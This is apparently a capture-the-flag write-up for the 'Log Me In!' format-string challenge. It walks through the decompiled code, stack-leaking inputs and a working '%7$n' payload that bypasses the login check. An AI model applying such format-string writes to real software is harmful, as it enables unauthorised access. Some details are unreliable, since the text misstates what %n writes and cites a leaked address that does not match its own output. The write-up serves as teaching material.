 # Log Me In!

Only the executable file was given. This was tagged as a "format string" challenge.

We run the program first.

```
user = 0x4202a0
Enter your username:
cookie
Enter password for user: cookie
cookie
Invalid login information.
```
The decompiled code from Ghidra is as follows; I have done some minor changes to improve the readability.

```
int main(void) { 
  char* __ptr = calloc(1, 40);
  printf("user = %p\n", __ptr);
  printf("Enter your username:");
  fgets((__ptr + 4), 20, stdin);
  printf("Enter password for user: ");
  printf((__ptr + 4));
  fgets((__ptr + 24), 20, stdin);
  if (*__ptr == 0) {
    printf("Invalid login information.");
  }
  else {
    printf("Successfully logged in!");
    giveFlag();
  }
  free(__ptr);
  return 0;
}
```

The code, though appearing to be very simple, did take me a while to fully understand.

Firstly, ```__ptr``` is a pointer to a buffer allocated on the heap, and ```calloc()``` will set the entire buffer to zeroes. Its address is shown, which is important later on.

A prompt for the username is then called, and ```fgets()``` writes the username to an offset 4 bytes off the memory address up to a total of 20 bytes, and the password fills up the remaining buffer.

This means that the first 4 bytes of the buffer are empty (from ```calloc()```), and logging in is not possible unless the first 4 bytes are written to.

### The exploit 
A good explanation of the string formatting vulnerability can be found [here](https://www.youtube.com/watch?v=2HxyGWD1htg). Simply put, format specifiers in ```printf()``` can be used to read values on the stack, and write to values elsewhere.

I played around with the ```%x``` format specifier, which prints out the values on the stack, to get things started with. After some experimentation, a few values on the stack were printed out. 

```
$ python2 -c 'print "%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x"' | ./logmein
user = 0x11882a0
Enter your username:
Enter password for user: 40202f-0-0-11882a4-19-be9a79d0-Invalid login information.
```
The value ```0x12fe2a4``` was found on the stack, which meant that memory address of the username (4 bytes off ```user```) was present, but not the actual address of ```user```. The input, capped to a total of 20 characters, was too long to show the other variables on the stack. 

Removing the hyphens (though this makes things less clear), other values further up the stack can be shown:
```
$ python2 -c 'print "%x%x%x%x%x%x%x%x%x"' | ./logmein
user = 0x23272a0
Enter your username:
Enter password for user: 40202f0023272a419158a692023272a00a0287083
Invalid login information.
```

The address of ```user``` can be found at the seventh 4-byte value on the stack. We confirm this by using ```%7$x``` as an input:
```
$ python2 -c 'print "%7$x"' | ./logmein
user = 0xdb32a0
Enter your username:
Enter password for user: db32a0
Invalid login information.
```

Now, the only thing left is to write to this value. This can be done by using the ```%n``` specifier. The (hexadecimal) value to the left of the specifier is written to the address specified.

**Solution**
```
$ python2 -c 'print "123%7$n"' | ./logmein
user = 0x15d3010
Enter your username:
Enter password for user: 123
adsf
Successfully logged in!
```

**Flag**
```
flag{why_does_printf_even_have_%n}
```
